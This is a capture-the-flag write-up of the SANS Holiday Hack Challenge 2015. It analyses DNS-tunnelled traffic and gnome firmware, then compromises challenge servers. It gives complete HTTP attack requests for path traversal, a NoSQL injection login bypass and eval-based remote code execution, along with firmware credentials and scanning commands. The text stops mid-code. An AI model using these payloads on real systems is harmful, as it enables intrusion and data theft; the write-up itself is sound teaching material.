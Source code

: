 SANS Christmas Challenge 2015
=============================
:date: 2016-01-09
:author: useless
:category: Write-up
:slug: sans-christmas-challenge-2015

.. image:: /images/sans-christmas-challenge-2015/sans_christmas_challenge_2015_logo.png
    :alt: sans_christmas_challenge_2015_logo.png
    :align: center

This year again, the SANS institute delights us with a wonderful
`Christmas Challenge <https://holidayhackchallenge.com/2015/>`__.

We follow the `Dosis family <https://quest.holidayhackchallenge.com/>`__,
after they purchase a
`Gnome in Your Home <https://en.wikipedia.org/wiki/The_Elf_on_the_Shelf>`__
for their kids, Jessica and Joshua. These two kids, especially bright
for their age, tinker with the gnome, to find that it has a weird,
and possible illegal behaviour.

It all begins when Joshua gives us a capture file of the network
communications he recorded from the gnome...

.. contents:: Table of contents

Part 1: Dance of the Sugar Gnome Fairies: *Curious Wireless Packets*
--------------------------------------------------------------------

We're given a `PCAP file </docs/sans-christmas-challenge-2015/giyh-capture.pcap>`_ (sha256:
:code:`655541fb645af45db68a739066325e2f1138812a6893254ae7b48acd9519a330`),
and are asked to analyze it, to see what we can find.  If we open it with
Wireshark, we can see a lot of DNS traffic, with what looks
like base64-encoded data in the TXT fields.

.. image:: /images/sans-christmas-challenge-2015/giyh-capture_wireshark.png
    :alt: giyh-capture_wireshark.png
    :align: center

Using DNS requests as a communication channel with a Command and Control server
is a well known trick to bypass traffic filtering, because outbound DNS is
often authorized on a local network. So, let's extract and decode the TXT
fields. tshark is particularly adapted for this task:

.. code-block:: console

   $ tshark -r giyh-capture.pcap -Y dns -T fields -e dns.txt | base64 -d > giyh-capture_decoded.txt

Here, we ask tshark to focus on the DNS traffic, and to output only the TXT
fields. Now, let's take a look at the decoded file:

.. code-block:: console

    $ cat giyh-capture_decoded.txt
    NONE:NONE:NONE:NONE:NONE:NONE:NONE:EXEC:iwconfig
    EXEC:START_STATEEXEC:wlan0     IEEE 802.11abgn  ESSID:"DosisHome-Guest"  
    EXEC:          Mode:Managed  Frequency:2.412 GHz  Cell: 7A:B3:B6:5E:A4:3F   
    EXEC:          Tx-Power=20 dBm   
    EXEC:          Retry short limit:7   RTS thr:off   Fragment thr:off
    EXEC:          Encryption key:off
    EXEC:          Power Management:off
    EXEC:          
    EXEC:lo        no wireless extensions.
    EXEC:
    EXEC:eth0      no wireless extensions.
    EXEC:STOP_STATENONE:NONE:NONE:EXEC:cat /tmp/iwlistscan.txt
    EXEC:START_STATEEXEC:wlan0     Scan completed :
    EXEC:          Cell 01 - Address: 00:7F:28:35:9A:C7
    EXEC:                    Channel:1
    EXEC:                    Frequency:2.412 GHz (Channel 1)
    EXEC:                    Quality=29/70  Signal level=-81 dBm  
    EXEC:                    Encryption key:on
    EXEC:                    ESSID:"CHC"
    EXEC:                    Bit Rates:1 Mb/s; 2 Mb/s; 5.5 Mb/s; 11 Mb/s; 6 Mb/s
    EXEC:                              9 Mb/s; 12 Mb/s; 18 Mb/s
    EXEC:                    Bit Rates:24 Mb/s; 36 Mb/s; 48 Mb/s; 54 Mb/s
    EXEC:                    Mode:Master
    EXEC:                    Extra:tsf=000000412e67cddf
    EXEC:                    Extra: Last beacon: 5408ms ago
    EXEC:                    IE: Unknown: 00055837335A36
    EXEC:                    IE: Unknown: 010882848B960C121824
    EXEC:                    IE: Unknown: 030101
    EXEC:                    IE: Unknown: 200100
    EXEC:                    IE: IEEE 802.11i/WPA2 Version 1
    EXEC:                        Group Cipher : CCMP
    EXEC:                        Pairwise Ciphers (1) : CCMP
    EXEC:                        Authentication Suites (1) : PSK
    EXEC:                    IE: Unknown: 2A0100
    EXEC:                    IE: Unknown: 32043048606C
    EXEC:                    IE: Unknown: DD180050F2020101040003A4000027A4000042435E0062322F00
    EXEC:                    IE: Unknown: 2D1A8C131BFFFF000000000000000000000000000000000000000000
    EXEC:                    IE: Unknown: 3D1601080800000000000000000000000000000000000000
    EXEC:                    IE: Unknown: DD0900037F01010000FF7F
    EXEC:                    IE: Unknown: DD0A00037F04010000000000
    EXEC:                    IE: Unknown: 0706555320010B1B
    [snip]
    EXEC:STOP_STATENONE:NONE:NONE:NONE:FILE:/root/Pictures/snapshot_CURRENT.jpg
    FILE:START_STATE,NAME=/root/Pictures/snapshot_CURRENT.jpgFILE:\xFF\xD8\xFF\xE0\x00\x10JFIF[raw binary]

Ok, lots of stuff! We can see that some shell commands are executed, and there
seems to be the upload of a JPEG file. The commands and results seem to be
:code:`EXEC:`, and the upload of the file and the content with
:code:`FILE:`.

We can recover the executed commands, which are :code:`iwconfig`, to see the
configuration of the different wirelass network interfaces of the gnome, and
:code:`cat /tmp/iwlistscan.txt`, which seems to give the result of the
:code:`iwlist scan` command, which scans available wireless networks.

We can recover the content of the uploaded file, with the following commands:

.. code-block:: console

    $ binwalk giyh-capture_decoded.txt # binwalk gives us the offset at which the JPEG file starts

    DECIMAL       HEXADECIMAL     DESCRIPTION
    --------------------------------------------------------------------------------
    4495          0x118F          JPEG image data, JFIF standard  1.01
    $ dd bs=1 skip=4495 if=giyh-capture_decoded.txt | sed 's/FILE://g' > giyh-capture_image.jpg # we skip the beginning of the decoded file, and remove the "FILE:" string from the result

We get the following image:

.. image:: /images/sans-christmas-challenge-2015/giyh-capture_image.jpg
    :alt: giyh-capture_image.jpg
    :align: center

The flag for this part is :code:`GnomeNET-NorthAmerica`

.. image:: /images/sans-christmas-challenge-2015/first_flag_confirmation.png
    :alt: first_flag_confirmation
    :align: center

Part 2: I’ll be Gnome for Christmas: *Firmware Analysis for Fun and Profit*
---------------------------------------------------------------------------

After seeing such a strange and creepy behaviour (come on, man, you're taking
pictures of little kids' bedrooms), we are asked to analyze the firmware of
the gnome.

We recover the `firmware </docs/sans-christmas-challenge-2015/giyh-firmware-dump.bin>`_ (sha256:
:code:`bee93a79bb8ee2eba526494b4e6e56a601e1fa9589a1cccf7bfe61261ab8db20`) from
Jessica. Now, time to analyze it! The best tool I know for file analysis is binwalk:

.. code-block:: console

    $ binwalk giyh-firmware-dump.bin 

    DECIMAL       HEXADECIMAL     DESCRIPTION
    --------------------------------------------------------------------------------
    0             0x0             PEM certificate
    1809          0x711           ELF 32-bit LSB shared object, ARM, version 1 (SYSV)
    168803        0x29363         Squashfs filesystem, little endian, version 4.0, compression:gzip, size: 17376149 bytes,  4866 inodes, blocksize: 131072 bytes, created: Tue Dec  8 19:47:32 2015

Using the :code:`-e` option form binwalk, we can extract the different files,
and unsquash the file system, to get a browsable version of the file system:

.. code-block:: console

    $ binwalk -e giyh-firmware-dump.bin 

    DECIMAL       HEXADECIMAL     DESCRIPTION
    --------------------------------------------------------------------------------
    0             0x0             PEM certificate
    1809          0x711           ELF 32-bit LSB shared object, ARM, version 1 (SYSV)
    168803        0x29363         Squashfs filesystem, little endian, version 4.0, compression:gzip, size: 17376149 bytes,  4866 inodes, blocksize: 131072 bytes, created: Tue Dec  8 19:47:32 2015
    $ cd _giyh-firmware-dump.bin.extracted/squashfs-root
    $ ls
    bin  etc  init  lib  mnt  opt  overlay  rom  root  sbin  tmp  usr  var  www
    $ cat etc/banner
      _______                     ________        __
     |       |.-----.-----.-----.|  |  |  |.----.|  |_
     |   -   ||  _  |  -__|     ||  |  |  ||   _||   _|
     |_______||   __|_____|__|__||________||__|  |____|
              |__| W I R E L E S S   F R E E D O M
     -----------------------------------------------------
     DESIGNATED DRIVER (Bleeding Edge, r47650)
     -----------------------------------------------------
      * 2 oz. Orange Juice         Combine all juices in a
      * 2 oz. Pineapple Juice      tall glass filled with
      * 2 oz. Grapefruit Juice     ice, stir well.
      * 2 oz. Cranberry Juice
     -----------------------------------------------------

We can see that the firmware is based on OpenWRT, more specifically the
Designated Driver branch, which is the development branch. We can find
the architecture by looking at some binary files in the :code:`bin` folder:

.. code-block:: console

    $ file bin/ash 
    bin/ash: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-musl-armhf.so.1, stripped

The architecture of the gnome seems to be 32-bit ARM.

We can see a :code:`www` folder at the root of the file system. Let's take a
look at it:

.. code-block:: console

    $ ls
    app.js  bin  files  node_modules  package.json  public  routes  views
    $ ls views 
    cameras.jade  error.jade  files.jade  gnomenet.jade  index.jade  layout.jade  login.jade  network.jade  settings.jade

The embedded web site seems to be a NodeJS website, using the Jade Node
Template Engine.

.. code-block:: console

    $ head app.js 
    var express = require('express');
    var path = require('path');
    var favicon = require('serve-favicon');
    var logger = require('morgan');
    var cookieParser = require('cookie-parser');
    var bodyParser = require('body-parser');
    var routes = require('./routes/index');
    var mongo = require('mongodb');
    var monk = require('monk');
    var db = monk('gnome:KTt9C1SljNKDiobKKro926frc@localhost:27017/gnome')

We can see that the web site uses MongoDB as the database management system. We
can find the MongoDB files in the squashfs-root/opt/mongodb directory. Let's
copy them to a local install of MongoDB so that we can analyze them:

.. code-block:: console

    $ sudo cp squashfs-root/opt/mongodb/gnome.* /var/lib/mongodb
    $ sudo chown mongodb:nogroup /var/lib/mongodb/gnome.*
    $ sudo service mongodb start
    $ mongo gnome
    MongoDB shell version: 2.4.10
    connecting to: gnome
    > show collections
    cameras
    settings
    status
    system.indexes
    users
    > db.users.find()
    { "_id" : ObjectId("56229f58809473d11033515b"), "username" : "user", "password" : "user", "user_level" : 10 }
    { "_id" : ObjectId("56229f63809473d11033515c"), "username" : "admin", "password" : "SittingOnAShelf", "user_level" : 100 }

We can see that the credentials are stored in plaintext, which is a big no-no.
The credentials to connect to the gnome web interface as an administrator are
:code:`admin/SittingOnAShelf`.

The flag for this part is :code:`SittingOnAShelf`.

.. image:: /images/sans-christmas-challenge-2015/second_flag_confirmation.png
    :alt: second_flag_confirmation
    :align: center

Part 3: Let it Gnome! Let it Gnome! Let it Gnome! *Internet-Wide Scavenger Hunt*
--------------------------------------------------------------------------------

The gnomes are apparently commanded by five SuperGnomes, which are the C&C
servers. How can we identify them? Jessica tells us that we can *sho Dan* the
password information we found. It took me a while (shame on me) to understand
that it was a clue given to us to use the famous Shodan website to identify
the SuperGnomes present on the Internet.

.. image:: /images/sans-christmas-challenge-2015/jessica_shodan.png
    :alt: jessica_shodan
    :align: center

If we look back at the traffic capture from the first part of this write-up,
we can see that the gnome is communicating with a server named
cmd.sg1.atnascorp.com.

Let's take the string "atnascorp" and search it in Shodan. You can find the
result at `this URL <https://www.shodan.io/search?query=atnascorp>`_:

.. image:: /images/sans-christmas-challenge-2015/shodan_result.png
    :alt: shodan_result
    :align: center

From the traffic analysis and the results from Shodan, we have found the five
SuperGnomes:

* SuperGnome01: 52.2.229.189, located in United States, Ashburn (VI)
* SuperGnome02: 52.34.3.80, located in United States, Portland (OR)
* SuperGnome03: 52.64.191.71, located in Australia, Sydney
* SuperGnome04: 52.192.152.132, located in Japan, Tokyo
* SuperGnome05: 54.233.105.81, located in Brazil, Sao Paulo

These targets were confirmed by the Great and Powerful Oracle, Tom Hessman.

.. image:: /images/sans-christmas-challenge-2015/third_flag_confirmation.png
    :alt: third_flag_confirmation
    :align: center

No flag for this part.

Part 4: There’s No Place Like Gnome for the Holidays: *Gnomage Pwnage*
----------------------------------------------------------------------

Now, it's time to compromise these SuperGnomes! To prove that we have control
of the SuperGnomes, we must recover the content of
:code:`/gnome/www/files/gnome.conf`.

`SuperGnome01 <http://52.2.229.189/>`_
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

This SuperGnome is the easiest of them all. Indeed, you just have to connect
to the web interface with the credentials found during the firmware analysis.
You can then go to the files tab, and download the configuration file:

.. image:: /images/sans-christmas-challenge-2015/sg01_w00t.png
    :alt: sg01_w00t
    :align: center

The flag for this SuperGnome is :code:`NCC1701`
(`geeky reference <https://en.wikipedia.org/wiki/USS_Enterprise_%28NCC-1701%29>`__).

`SuperGnome02 <http://52.34.3.80/>`_
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

When we connect to SuperGnome02, we can go the files tab, but we can't download
any file.

.. image:: /images/sans-christmas-challenge-2015/sg02_download_fail.png
    :alt: sg02_download_fail.png
    :align: center

However, there is a path traversal vulnerability in the web backend
of the SuperGnome:

.. code-block:: js
    :hl_lines: 5 10

    // File www/route/index.js, line 182
    // CAMERA VIEWER
    // STUART: Note: to limit disclosure issues, this code checks to make sure the user asked for a .png file
    router.get('/cam', function(req, res, next) {
      var camera = unescape(req.query.camera);
      // check for .png
      //if (camera.indexOf('.png') == -1) // STUART: Removing this...I think this is a better solution... right?
      camera = camera + '.png'; // add .png if its not found
      console.log("Cam:" + camera);
      fs.access('./public/images/' + camera, fs.F_OK | fs.R_OK, function(e) {
        if (e) {
                res.end('File ./public/images/' + camera + ' does not exist or access denied!');
        }
      });
      fs.readFile('./public/images/' + camera, function (e, data) {
        res.end(data);
      });
    });

We can see that the :code:`camera` parameter goes through no sanitization. The
only thing done to this parameter is that it is appended with the
:code:`'.png'` string. However, on some version of the gnome, this string is
appended only if it is not previously found in the parameter. This means that
if we find a directory with :code:`.png` in its name, we can access any file.

Fortunately, we can create a directory with an arbitray name:

.. code-block:: js
    :hl_lines: 5 6 13

    // File www/route/index.js, line 127
    // SETTINGS UPLOAD
    router.post('/settings', function(req, res, next) {
      if (sessions[sessionid].logged_in === true && sessions[sessionid].user_level > 99) { // AUGGIE: settings upload allowed for admins (admins are 100, currently)
        var filen = req.body.filen;
        var dirname = '/gnome/www/public/upload/' + newdir() + '/' + filen;
        var msgs = [];
        var free = 0;
        disk.check('/', function(e, info) {
          free = info.free;
        });
        try {
          fs.mknewdir(dirname.substr(0,dirname.lastIndexOf('/')));
          msgs.push('Dir ' + dirname.substr(0,dirname.lastIndexOf('/')) + '/ created successfully!');
        } catch(e) {
          if (e.code != 'EEXIST')
            throw e;
        }
        if (free < 99999999999) { // AUGGIE: I think this is breaking uploads?  Stuart why did you set this so high?
          msgs.push('Insufficient space!  File creation error!');
        }
        res.msgs = msgs;
        next();
      } else
        res.render('index', { title: 'GIYH::ADMIN PORT V.01', session: sessions[sessionid], res: res });
    });

This time, the parameter without any sanitization is :code:`filen`, which is
the name of our new settings file. Since it's not sanitized, we can put
special characters, like :code:`/`:

.. code-block:: http

    POST /settings HTTP/1.1
    Host: 52.34.3.80
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:38.0) Gecko/20100101 Firefox/38.0 Iceweasel/38.5.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/\*;q=0.8
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Referer: http://52.34.3.80/settings
    Cookie: sessionid=jle7GDOGWl2hB4Upp5ry
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 26

    filen=foo.png/foo&file=bar

.. image:: /images/sans-christmas-challenge-2015/sg02_folder_creation_success.png
    :alt: sg02_folder_creation_success.png
    :align: center

Then we can use the path traversal vulnerability to recover the configuration
file:

.. code-block:: http

    GET /cam?camera=../upload/YoGjNkHo/foo.png/../../../../../../gnome/www/files/gnome.conf HTTP/1.1
    Host: 52.34.3.80
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:38.0) Gecko/20100101 Firefox/38.0 Iceweasel/38.5.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/\*;q=0.8
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Cookie: sessionid=jle7GDOGWl2hB4Upp5ry
    Connection: close

.. code-block:: http

    HTTP/1.1 200 OK
    X-Powered-By: GIYH::SuperGnome by AtnasCorp
    Date: Sun, 20 Dec 2015 18:58:59 GMT
    Connection: close
    Content-Length: 339

    Gnome Serial Number: XKCD988
    Current config file: ./tmp/e31faee/cfg/sg.01.v1339.cfg
    Allow new subordinates?: YES
    Camera monitoring?: YES
    Audio monitoring?: YES
    Camera update rate: 60min
    Gnome mode: SuperGnome
    Gnome name: SG-02
    Allow file uploads?: YES
    Allowed file formats: .png
    Allowed file size: 512kb
    Files directory: /gnome/www/files/

The flag for this SuperGnome is :code:`XKCD988`
(`geeky reference <https://xkcd.com/988/>`__).

`SuperGnome03 <http://52.64.191.71/>`_
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We can't even connect to this SuperGnome with our stolen credentials!

.. image:: /images/sans-christmas-challenge-2015/sg03_failed_login.png
    :alt: sg03_failed_login.png
    :align: center

That means that we have to bypass authentication somehow. The usual way is
using an SQL injection. But since the DBMS is MongoDB, we can't use traditional
SQL injection: we have to use NoSQL injection.

.. code-block:: js
    :hl_lines: 6

    // File www/routes/index.js, line 105
    // LOGIN POST
    router.post('/', function(req, res, next) {
      var db = req.db;
      var msgs = [];
      db.get('users').findOne({username: req.body.username, password: req.body.password}, function (err, user) { // STUART: Removed this in favor of below.  Really guys?
      //db.get('users').findOne({username: (req.body.username || "").toString(10), password: (req.body.password || "").toString(10)}, function (err, user) { // LOUISE: allow passwords longer than 10 chars
        if (err || !user) {
          console.log('Invalid username and password: ' + req.body.username + '/' + req.body.password);
          msgs.push('Invalid username or password!');
          res.msgs = msgs;
          res.render('index', { title: 'GIYH::ADMIN PORT V.01', session: sessions[req.cookies.sessionid], res: res });
        } else {
          sessionid = gen_session();
          sessions[sessionid] = { username: user.username, logged_in: true, user_level: user.user_level };
          console.log("User level:" + user.user_level);
          res.cookie('sessionid', sessionid);
          res.writeHead(301,{ Location: '/' });
          res.end();
        }
      });
    });

We can see that the parameters :code:`username` and :code:`password` are not
converted to string before being used in the NoSQL query. This means that we
can send our login parameters in JSON, and they will automatically be converted
to a JavaScript object.

.. code-block:: http

    POST / HTTP/1.1
    Host: 52.64.191.71
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:38.0) Gecko/20100101 Firefox/38.0 Iceweasel/38.5.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/\*;q=0.8
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Referer: http://52.64.191.71/?logout=1
    Cookie: sessionid=9VdoAi2pOEvmdCfZz0y9
    Connection: close
    Content-Type: application/json
    Content-Length: 45

    {"username": "admin","password": {"$gt": ""}}

.. code-block:: http

    HTTP/1.1 301 Moved Permanently
    X-Powered-By: GIYH::SuperGnome by AtnasCorp
    Set-Cookie: sessionid=5KriPZf9AP8l8MGBVpA8; Path=/
    Location: /
    Date: Sun, 20 Dec 2015 22:44:35 GMT
    Connection: close
    Content-Length: 0

This request means that the username must be "admin", and that the associated
password must be greater than an empty string. Since such a user exists, the
application considers that we provided valid credentials, and happily opens
an authenticated web session.

We can then get the configuration file:

.. code-block:: http

    GET /files?d=gnome.conf HTTP/1.1
    Host: 52.64.191.71
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:38.0) Gecko/20100101 Firefox/38.0 Iceweasel/38.5.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/\*;q=0.8
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Referer: http://52.64.191.71/files
    Cookie: sessionid=5KriPZf9AP8l8MGBVpA8
    Connection: close

.. code-block:: http

    HTTP/1.1 200 OK
    X-Powered-By: GIYH::SuperGnome by AtnasCorp
    Date: Sun, 20 Dec 2015 22:44:57 GMT
    Connection: close
    Content-Length: 339

    Gnome Serial Number: THX1138
    Current config file: ./tmp/e31faee/cfg/sg.01.v1339.cfg
    Allow new subordinates?: YES
    Camera monitoring?: YES
    Audio monitoring?: YES
    Camera update rate: 60min
    Gnome mode: SuperGnome
    Gnome name: SG-03
    Allow file uploads?: YES
    Allowed file formats: .png
    Allowed file size: 512kb
    Files directory: /gnome/www/files/

The flag for this SuperGnome is :code:`THX1138`
(`geeky reference <https://en.wikipedia.org/wiki/THX_1138>`__).

`SuperGnome04 <http://52.192.152.132>`_
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We can connect to this SuperGnome with our credentials (whew).
However, when we try to download the gnome.conf file from the
files tab, we get an error message:

.. image:: /images/sans-christmas-challenge-2015/sg04_download_fail.png
    :alt: sg04_download_fail.png
    :align: center

Fortunately for us, this SuperGnome suffers from a remote code execution:

.. code-block:: js
    :hl_lines: 9 15

    // File www/routes/index.js, line 153
    // FILES UPLOAD
    router.post('/files', upload.single('file'), function(req, res, next) {
      if (sessions[sessionid].logged_in === true && sessions[sessionid].user_level > 99) { // NEDFORD: this should be 99 not 100 so admins can upload
        var msgs = [];
        file = req.file.buffer;
        if (req.file.mimetype === 'image/png') {
          msgs.push('Upload successful.');
          var postproc_syntax = req.body.postproc;
          console.log("File upload syntax:" + postproc_syntax);
          if (postproc_syntax != 'none' && postproc_syntax !== undefined) {
            msgs.push('Executing post process...');
            var result;
            d.run(function() {
              result = eval('(' + postproc_syntax + ')');
            });
            // STUART: (WIP) working to improve image uploads to do some post processing.
            msgs.push('Post process result: ' + result);
          }
          msgs.push('File pending super-admin approval.');
          res.msgs = msgs;
        } else {
          msgs.push('File not one of the approved formats: .png');
          res.msgs = msgs;
        }
      } else
        res.render('index', { title: 'GIYH::ADMIN PORT V.01', session: sessions[sessionid], res: res });
      next();
    });

When a file is uploaded, it's post-processed. To do so, the server
:code:`eval` s some code sent by us. Whoopsie! We can send arbitrary JavaScript
code, and it will be executed by the server. This means that we can send code
to read the configuration file:

.. code-block:: http

    POST /files HTTP/1.1
    Host: 52.192.152.132
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:38.0) Gecko/20100101 Firefox/38.0 Iceweasel/38.5.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/\*;q=0.8
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Referer: http://52.192.152.132/files
    Cookie: sessionid=X7VWEHkmmlBfutfSWIKF
    Connection: close
    Content-Type: multipart/form-data; boundary=---------------------------1090026508808451371305736143
    Content-Length: 368

    -----------------------------1090026508808451371305736143
    Content-Disposition: form-data; name="postproc"

    require('fs').readFileSync('/gnome/www/files/gnome.conf', 'utf8', function (err, data) {})
    -----------------------------1090026508808451371305736143
    Content-Disposition: form-data; name="file"; filename="bar.png"
    Content-Type: image/png

    foo

    -----------------------------1090026508808451371305736143--

.. code-block:: http

    HTTP/1.1 200 OK
    X-Powered-By: GIYH::SuperGnome by AtnasCorp
    Content-Type: text/html; charset=utf-8
    Content-Length: 4208
    ETag: W/"1070-Jo7i+NGHd32e2cYWZTjmCQ"
    Date: Sat, 26 Dec 2015 23:41:46 GMT
    Connection: close

    <!DOCTYPE html><html><head><title>GIYH::ADMIN PORT V.01</title>
    [snip]
    <ul class="nav navbar-nav"><li><a href="/">Home</a></li><li><a href="/cameras">Cameras</a></li><li><a href="/files">Files</a></li><li><a href="/gnomenet">GnomeNET</a></li><li><a href="/settings">Settings</a></li><li><a href="/?logout=1">Logout</a></li></ul></div></div></nav><div class="jumbotron"><h1>Files</h1><p class="message">Upload successful.</p><p class="message">Executing post process...</p>
    <p class="message">Post process result: Gnome Serial Number: BU22_1729_2716057
    Current config file: ./tmp/e31faee/cfg/sg.01.v1339.cfg
    Allow new subordinates?: YES
    Camera monitoring?: YES
    Audio monitoring?: YES
    Camera update rate: 60min
    Gnome mode: SuperGnome
    Gnome name: SG-04
    Allow file uploads?: YES
    Allowed file formats: .png
    Allowed file size: 512kb
    Files directory: /gnome/www/files/
    </p><p class="message">File pending Nedfords approval.</p>[snip]

.. image:: /images/sans-christmas-challenge-2015/sg04_w00t.png
    :alt: sg04_w00t.png
    :align: center

The flag for this SuperGnome is :code:`BU22_1729_2716057`
(`geeky reference <https://en.wikipedia.org/wiki/Bender_%28Futurama%29>`__).

`SuperGnome05 <http://54.233.105.81/>`_
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

This SuperGnome was particular: indeed, the vulnerability was not in the
web interface, but in a network service run by the SuperGnome. If we
take a look at the result of a :code:`nmap` command, we can see that
we can connect to the SuperGnome on the port 4242:

.. code-block:: console

    $ nmap 54.233.105.81     

    Starting Nmap 6.47 ( http://nmap.org ) at 2016-01-09 10:55 CET
    Nmap scan report for ec2-54-233-105-81.sa-east-1.compute.amazonaws.com (54.233.105.81)
    Host is up (0.30s latency).
    Not shown: 997 filtered ports
    PORT     STATE  SERVICE
    80/tcp   open   http
    4242/tcp open   vrml-multi-use
    5555/tcp closed freeciv

    Nmap done: 1 IP address (1 host up) scanned in 22.17 seconds

Let's connect to it using :code:`netcat`:

.. code-block:: console

    $ nc 54.233.105.81 4242

    Welcome to the SuperGnome Server Status Center!
    Please enter one of the following options:

    1 - Analyze hard disk usage
    2 - List open TCP sockets
    3 - Check logged in users

Ok, this seems to be a service to get some informations about
the SuperGnomes. Let's see if we have a copy of the binary
in our copy of the firmware

.. code-block:: console

   $ grep -Rn "Welcome to the SuperGnome Server Status Center" .

   Fichier binaire ./usr/bin/sgstatd correspondant

Ok, so the binary program listening on the port 4242 seems to
be :code:`/usr/bin/sgstatd`. If we look carefully, we can
find the source for such a program on SuperGnome01:

.. image:: /images/sans-christmas-challenge-2015/sg01_file_list.png
    :alt: sg01_file_list.png
    :align: center

You can download the source code `here </docs/sans-christmas-challenge-2015/sgnet.zip>`__
(sha256: :code:`2343ce7345b960144fcb39ca01c2cf406e6db9a7847eaae6361d69ef5169d4e4`).

Now let's look at the source code, and see where our input
are being processed (I cleaned it up a bit):

.. code-block:: c
    :hl_lines: 47 51

    // File sgstatd.c, line 21
    if (choice != 2) {
        write(sd, "\nWelcome to the SuperGnome Server Status Center!\n", 51);
        write(sd, "Please enter one of the following options:\n\n", 45);
        write(sd, "1 - Analyze hard disk usage\n", 28);
        write(sd, "2 - List open TCP sockets\n", 26);
        write(sd, "3 - Check logged in users\n", 27);
        fflush(stdout);

